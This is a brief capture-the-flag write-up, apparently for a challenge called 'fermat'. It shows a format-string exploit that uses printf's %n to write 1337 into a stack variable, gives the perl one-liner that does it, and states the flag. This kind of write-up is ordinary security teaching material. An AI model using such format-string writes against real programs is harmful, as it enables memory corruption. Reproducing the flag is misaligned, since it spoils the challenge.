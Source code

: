 Using printf's %n operator we can write a character 1337 times and get that number into the next variable on the stack, being `secret`.
we could do this like `./fermat "$(perl -e 'print "a"x1337')%n"`
flag: `flag_fermats_last_exploit`
